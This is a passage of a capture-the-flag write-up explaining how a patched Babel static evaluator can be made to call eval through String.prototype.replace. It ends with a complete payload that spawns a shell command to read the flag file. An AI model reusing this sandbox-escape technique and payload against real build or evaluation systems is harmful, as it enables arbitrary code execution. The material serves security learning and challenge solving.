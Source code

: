 
The snippet below is the only code added the the original `evaluation.js`. The patch allows us to gain a reference to any global function:

```js
if (global.hasOwnProperty(name)) {
  return global[name];
}
```

The most useful function we can gain a reference to is `eval`. The goal will be to call it with user-controlled arguments.

Even with the patch, the code for handling static evaluation is still quite restrictive. If we want to call a function with an identifier as the callee (or a MemberExpression with an identifier as the object), we are limited by this snippet of code:

```js
const VALID_OBJECT_CALLEES = ["Number", "String", "Math"];
const VALID_IDENTIFIER_CALLEES = ["isFinite", "isNaN", "parseFloat", "parseInt", "decodeURI", "decodeURIComponent", "encodeURI", "encodeURIComponent", null, null];
const INVALID_METHODS = ["random"];
/* snip */
if (callee.isIdentifier() && !path.scope.getBinding(callee.node.name) && (isValidObjectCallee(callee.node.name) || isValidIdentifierCallee(callee.node.name))) {
    func = global[callee.node.name];
}
if (callee.isMemberExpression()) {
    const object = callee.get("object");
    const property = callee.get("property");
    if (object.isIdentifier() && property.isIdentifier() && isValidObjectCallee(object.node.name) && !isInvalidMethod(property.node.name)) {
    context = global[object.node.name];
    const key = property.node.name;
        if (Object.hasOwnProperty.call(context, key)) {
            func = context[key];
        }
    }
      /* snip */
}

```

Though we can easily control the arguments, the code checks the callee against a whitelist. We can only call safe functions, like `String.fromCharCode(123)`. `parseInt("12",10)` etc.

Another way that Babel allows us to execute a function call is through an indirect call, such as:

```js
String({toString: FUNCTION})
```

However, in this case, there will be no arguments passed into the function. As we need a way to call `eval` with our own arguments, this method is not useful.

That leads us to this last interesting snippet of code related to function calls:

```js
  if (path.isCallExpression()) {
    const callee = path.get("callee");
    let context;
    let func;
    /* snip */
    if (callee.isMemberExpression()) {
      const object = callee.get("object");
      const property = callee.get("property");
      /* snip */

      // Our savior!
      if (object.isLiteral() && property.isIdentifier()) {
        const type = typeof object.node.value;
        if (type === "string" || type === "number") {
          context = object.node.value;
          func = context[property.node.name];
        }
      }
    }
    if (func) {
      const args = path.get("arguments").map(arg => evaluateCached(arg, state));
      if (!state.confident) return;
      return func.apply(context, args);
    }
  }
```

If we have a MemberExpression where the object is a literal and the property is an identifier, we can call the function with arbitrary arguments. However, we still need a way to call `eval` and supply it controlled arguments. We can enumerate all the functions in `String.prototype` and `Number.prototype` to discover that `String.prototype.replace` takes in a callback function as its second argument. This callback function is called with the matched substring as its first argument. By using `eval` as the callback function, we can call it with any arbitrary arguments by using the template:

```js
"CODE TO EVAL".replace("CODE TO EVAL", eval)

```

Putting this all together, we can use the following payload to read and print the flag:

```js
'let result=process.binding("spawn_sync").spawn({file:"cat",args:["cat","./flag"],stdio:[{type:"pipe",readable:true,writable:false},{type:"pipe",readable:false,writable:true},{type:"pipe",readable:false,writable:true},],});let output=result.output[1].toString();console.log(output)'.replace('let result=process.binding("spawn_sync").spawn({file:"cat",args:["cat","./flag"],stdio:[{type:"pipe",readable:true,writable:false},{type:"pipe",readable:false,writable:true},{type:"pipe",readable:false,writable:true},],});let output=result.output[1].toString();console.log(output)',eval)
```